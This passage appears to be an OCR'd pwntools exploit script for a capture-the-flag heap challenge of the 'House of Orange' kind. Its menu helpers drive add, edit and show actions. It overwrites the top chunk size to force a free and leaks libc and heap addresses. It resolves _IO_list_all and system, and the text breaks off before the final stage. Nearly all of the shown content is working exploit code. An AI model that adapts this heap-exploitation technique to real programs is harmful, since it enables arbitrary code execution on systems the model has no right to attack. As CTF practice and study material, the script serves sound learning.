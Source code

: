 	    sl(str(size))
	    ru("Name :")
	    sh.send(content)
	    ru("Price of Orange:")
	    sl(str(price))
	    ru("Color of Orange:")    #1-7
	    sl(str(color))
	
	
	def show():
	    ru("Your choice : ")
	    sl('2')
	
	def edit(size, content, price='2', color='1'):
	    ru("Your choice : ")
	    sl('3')
	    ru("Length of name :")
	    sl(str(size))
	    ru("Name:")
	    sh.send(content)
	    ru("Price of Orange:")
	    sl(str(price))
	    ru("Color of Orange:")    #1-7
	    sl(str(color))
	
	
	
	add(0x30,'aaaa\n')
	#dbg()
	payload = 'a' * 0x30 +p64(0) + p64(0x21) + p32(2) + p32(1) + p64(0) * 2 + p64(0xf81)
	 
	edit(len(payload), payload)
	#dbg()
	add(0x1000, 'a\n')
	#dbg()
	add(0x400, 'a' * 8)
	#dbg()
	show()
	ru('a'*8)
	libc.address = u64(ru('\x7f').ljust(8, '\x00')) - 0x3c5188
	lg('libc.address',libc.address)
	  
	io_list_all = libc.symbols['_IO_list_all']
	system = libc.symbols['system']
	
	payload = 'b' * 0x10
	 
	
	edit(0x10, payload)
	
	show()
	ru('b'*0x10)
	heap = u64(sh.recvuntil('\n').strip().ljust(8, '\x00'))
	heap_base = heap - 0xE0
	lg('heap_base',heap_base)
	#dbg()
	 